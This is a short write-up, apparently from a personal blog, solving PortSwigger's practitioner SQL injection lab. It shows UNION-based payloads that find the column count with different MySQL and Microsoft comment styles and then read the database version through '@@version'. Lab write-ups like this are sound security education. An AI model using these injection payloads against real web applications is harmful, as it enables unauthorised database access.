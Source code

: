 ```yaml
---
title: PortSwigger - SQLi 8 - SQLi querying the DB type and version on MySQL and Microsoft
date: 2023-05-16
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

To solve the lab, display the database version string.

## ✅ Solution

> We know it is a MySQL or Microsoft database so we will have to try different comment symbol:
> `--comment` for Microsoft
> `#comment` or `-- comment` for MySQL
> The `#` will be encoded as `%23` and the space ` ` as `%20`

Find the number of columns while trying different comments:

````text
# Microsoft: --comment
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error! 
# MySQL: #comment
<website>/filter?category=Gifts'UNION SELECT NULL%23                # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL%23           # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL%23      # error! 
# MySQL: -- comment
<website>/filter?category=Gifts'UNION SELECT NULL--%20              # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--%20         # works  
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--%20    # error! 
````

We know 2 columns are returned by the questy. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--%20        # works
````

> To determine the database type and version on MySQL we have to query `@@version`.
> The `@` character is `%40` when URL encoded.

Full payload:

````text
<website>/filter?category=Gifts'+UNION+SELECT+%40%40version,NULL--%20    # works
````

The database type and version are displayed.

